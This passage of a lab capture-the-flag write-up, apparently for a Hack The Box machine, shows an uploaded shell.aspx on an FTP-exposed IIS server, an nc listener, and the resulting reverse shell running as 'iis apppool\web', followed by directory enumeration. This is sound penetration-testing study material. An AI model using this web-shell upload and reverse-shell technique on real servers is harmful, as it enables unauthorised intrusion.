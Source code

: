 ```
229 Entering Extended Passive Mode (|||49171|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
08-21-22  11:17AM                 2760 shell.aspx
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> exit
```

Now, all we need to do is start a listener on port 1337 and try to access `http://10.10.10.5/shell.aspx` from our browser to get our reverse shell.

```
┌──(kali㉿kali)-[~/Desktop/htb/devel]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.5] 49180
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

So, it looks like we got access as `iis apppool\web` but still we can't access the user flag. 

```
c:\windows\system32\inetsrv>cd c:\Users
cd c:\Users

c:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.563.058.688 bytes free

c:\Users>cd babis
cd babis
Access is denied.
```
